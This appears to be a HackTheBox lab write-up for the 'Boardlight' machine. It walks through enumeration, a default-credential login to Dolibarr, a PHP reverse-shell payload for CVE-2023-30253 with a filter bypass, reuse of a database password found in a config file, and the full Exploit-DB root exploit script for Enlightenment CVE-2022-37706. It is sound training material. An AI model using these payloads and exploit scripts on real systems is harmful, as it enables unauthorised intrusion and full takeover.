





## Writeup for Boardlight from HackTheBox


First an nmap scan was performed on the target machine which returned this output:

```bash
$ nmap -sC -sV 10.10.11.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 07:32 EDT
Stats: 0:00:58 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 07:33 (0:00:00 remaining)
Nmap scan report for board.htb (10.10.11.11)
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.56 seconds
```


The nmap scan revealed a HTTP server on port 80. Upon visiting the website, a static website is displayed. It is clear that the site is static as any form submissions do not reach any endpoint in the server. However, the page does reveal the domain name `board.htb`.


Next, a search for any subdomains in `board.htb` was then conducted:


```bash
$ wfuzz -c -u 'http://board.htb' -H "Host:FUZZ.board.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw 1053
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://board.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload      
=====================================================================

000000072:   200        149 L    504 W      6360 Ch     "crm"        

Total time: 174.4353
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 28.60085
```


The crm subdomain was found. After adding it to /etc/hosts and visiting the site a Dolibarr 17.0.0 login page was found.





A quick google search for the default credentials for this login page reveals that it is admin:admin. Using these credentials, login to the admin dashboard is successful.





Furthermore, research was performed on Dolibarr 17.0.0 to see if it is vulnerable to any exploits. Soon, it was found to be vulnerable to CVE-2023-30253, which is a PHP code injection vulnerability. The vulnerability used is as described in `https://www.swascan.com/security-advisory-dolibarr-17-0-0/`.


To exploit this first visit the websites page in the top nav bar on the dashboard and create a new website.





Next, create a page for the website.





Next, edit the HTML source for the page that was just created, and replace the page's source code with the following PHP code: `<?PHP echo system("bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'); ?>"`. The software does perform some filtering on the PHP code that is used for the page, hence, using \<?PHP ?> tags rather than \<?php ?> tags helps bypass this filtering. Then, a netcat listener was started. Upon saving the source code for this page, the listener should receive a reverse shell as `www-data` from the `boardlight` machine.





Within /home, a user `larissa` could be found. The credentials needed to become `larissa` could be found in the configuration files needed for Dolibarr to connect to the database on the machine. In `crm.board.htb/htdocs/conf/conf.php` a password can be found that can be used to successfully log in as `larissa`.


```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```


After establishing a SSH connection to the machine as `larissa`, it was checked whether she had any sudo permissions using `sudo -l`. However, it was found that `larissa` was not permitted to run any `sudo` commands.


To further aid with enumeration to escalate privileges, Linpeas was then employed. Within the output of Linpeas, it was discovered that some binaries related to the `Enlightenment` software were SUID binaries. 


```bash
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                          
                      ╚════════════════════════════════════╝                                                                                                
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                            
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                                   
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
```

Performing some research online on whether this software can be exploited reveals that this software have been vulnerable to CVE-2022-37706 in the past. The code used for exploiting this vulnerability can be found in `https://www.exploit-db.com/exploits/51180`.


```bash
!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
```


Upon executing this code, a root shell is spawned, giving the attacker full previleges.


```bash
larissa@boardlight:~$ bash script.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Welcome to the rabbit hole :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

Overall, the steps for obtaining a foothold on the box were straightforward. However, during the privilege escalation phase, I was reminded of the importance of patient enumeration in uncovering the files on the machine which provided a pathway to become the larissa and root users. Upon discovering the SUID Enlightenment files, I was at first surprised that the vulnerability would not be found on GTFOBins but rather as a public exploit on Exploit-DB, illustrating the importance of thorough research in penetration testing.